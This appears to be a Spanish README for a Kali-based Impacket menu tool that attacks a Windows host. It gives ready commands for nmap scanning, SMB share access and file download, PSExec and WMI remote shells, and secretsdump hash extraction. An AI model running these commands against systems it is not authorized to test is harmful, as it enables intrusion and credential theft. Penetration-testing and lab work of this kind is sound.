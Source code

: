 ```bash
# Ejecución rápida
./impacket.sh

# O manualmente
sudo python3 hacker_menu.py
```

**Proceso:**
1. **Configuración**: El sistema detecta IP de Kali automáticamente
2. **Objetivos**: Ingresar IP Windows + credenciales admin
3. **Navegación**: Usar opciones 1-9 del menú

**Opciones del Menú:**
- **1**: Reconocimiento (ping, nmap)
- **2**: SMB (recursos compartidos)
- **3**: PSExec (shell remoto)
- **4**: WMI (shell alternativo)
- **5**: Hashes (extracción credenciales)
- **9**: Configuración

### Método 2: Comandos Manuales

#### Reconocimiento:
```bash
ping -c 4 [IP_WINDOWS]
nmap -sV -sC [IP_WINDOWS]
```

#### Explotación SMB:
```bash
python3 /usr/share/doc/python3-impacket/examples/smbclient.py [USER]:[PASS]@[IP]

# Comandos internos SMB:
shares          # Listar recursos
use C           # Acceder disco C:
ls              # Listar archivos
get archivo     # Descargar
```

#### Shell Remoto:
```bash
# PSExec
python3 /usr/share/doc/python3-impacket/examples/psexec.py [USER]:[PASS]@[IP]

# WMI
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py [USER]:[PASS]@[IP]
```

#### Extracción Hashes:
```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py [USER]@[IP] -p '[PASS]'
```
